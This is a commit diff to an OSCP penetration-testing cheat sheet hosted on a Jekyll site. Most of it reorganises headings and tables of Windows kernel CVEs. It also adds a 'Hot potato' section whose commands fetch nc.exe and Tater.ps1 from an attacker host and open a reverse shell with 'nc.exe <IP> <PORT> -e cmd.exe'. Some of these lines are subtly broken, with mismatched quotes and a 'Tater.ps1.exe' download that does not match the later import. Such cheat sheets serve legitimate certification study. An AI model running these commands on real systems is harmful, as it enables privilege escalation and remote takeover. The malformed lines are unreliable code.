

Before and after one commit to Liodeus/liodeus.github.io, a Jekyll site: the page built from _posts/2020-09-18-OSCP-personal-cheatsheet.md, in a window 1280 px wide and 900 px high, scrolled down 29873 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add files via upload

````diff
--- a/_posts/2020-09-18-OSCP-personal-cheatsheet.md
+++ b/_posts/2020-09-18-OSCP-personal-cheatsheet.md
@@ -175,12 +175,14 @@ description: "OSCP personal cheat sheet"
   * [Unquoted service paths](#unquoted-service-paths)
     + [Detection](#detection-5)
     + [Exploitation](#exploitation-5)
-    + [CVE](#cve)
-      - [Windows XP](#windows-xp)
-      - [Windows 7](#windows-7)
-      - [Windows 8](#windows-8)
-      - [Windows 10](#windows-10)
-      - [Windows Server 2003](#windows-server-2003)
+  * [Hot potato](#hot-potato)
+    + [Exploitation](#exploitation-6)
+  * [CVE](#cve)
+    + [Windows XP](#windows-xp)
+    + [Windows 7](#windows-7)
+    + [Windows 8](#windows-8)
+    + [Windows 10](#windows-10)
+    + [Windows Server 2003](#windows-server-2003)
 - [PROOFS](#proofs)
   * [Linux](#linux-6)
   * [Windows](#windows-6)
@@ -1427,7 +1429,6 @@ https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
 
 ```
 https://guif.re/windowseop
-
 https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
 https://mysecurityjournal.blogspot.com/p/client-side-attacks.html
 http://www.fuzzysecurity.com/tutorials/16.html
@@ -1687,7 +1688,22 @@ powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/Commo
 sc start unquotedsvc
 ```
 
-#### CVE
+### Hot potato
+
+#### Exploitation
+
+```
+# Attacker
+sudo python -m SimpleHTTPServer 80
+sudo nc -lvp <PORT>
+
+# Victim
+powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/nc.exe', ".\nc.exe')
+powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/Tater.ps1.exe', ".\Tater.ps1.exe')
+powershell -exec bypass -command "& { Import-Module .\Tater.ps1; Invoke-Tater -Trigger 1 -Command '.\nc.exe <IP> <PORT> -e cmd.exe' }"
+```
+
+### CVE
 
 ```
 # Already compiled exploit
@@ -1695,7 +1711,7 @@ https://github.com/SecWiki/windows-kernel-exploits
 https://github.com/abatchy17/WindowsExploits
 ```
 
-##### Windows XP
+#### Windows XP
 
 |      CVE      | Description                                                  |
 | :-----------: | :----------------------------------------------------------- |
@@ -1714,7 +1730,7 @@ https://github.com/abatchy17/WindowsExploits
 | CVE-2011-5046 | EXPLOIT-DB 18275 - GDI in windows does not properly validate user-mode input - allows remote code execution |
 | CVE-2012-4349 | Unquoted windows search path - Windows provides the capability of including spaces in path names - can be root |
 
-##### Windows 7
+#### Windows 7
 
 |      CVE      | Description                                                  |
 | :-----------: | :----------------------------------------------------------- |
@@ -1727,7 +1743,7 @@ https://github.com/abatchy17/WindowsExploits
 | CVE-2015-0016 | ms15_004_tswbproxy -  abuses a process creation policy in Internet Explorer's sandbox - code execution |
 | CVE-2018-8494 | remote code execution vulnerability exists when the Microsoft XML Core Services MSXML parser processes user input |
 
-##### Windows 8
+#### Windows 8
 
 |      CVE      | Description                                                  |
 | :-----------: | ------------------------------------------------------------ |
@@ -1741,7 +1757,7 @@ https://github.com/abatchy17/WindowsExploits
 | CVE-2014-6352 | ms14_064_packager_python - exploits Windows Object Linking and Embedding (OLE) - arbitrary code execution |
 | CVE-2015-0002 | ntapphelpcachecontrol - NtApphelpCacheControl Improper Authorization Check - privilege escalation |
 
-##### Windows 10
+#### Windows 10
 
 |      CVE      | Description                                                  |
 | :-----------: | ------------------------------------------------------------ |
@@ -1754,7 +1770,7 @@ https://github.com/abatchy17/WindowsExploits
 | CVE-2015-2431 | MS15-080 - Vulnerabilities in Microsoft Graphics Component - Could Allow Remote Code Execution |
 | CVE-2015-2441 | MS15-091 - Vulnerabilities exist when Microsoft Edge improperly accesses objects in memory - allows remote code execution |
 
-##### Windows Server 2003
+#### Windows Server 2003
 
 |      CVE      | Description                                                  |
 | :-----------: | ------------------------------------------------------------ |
````
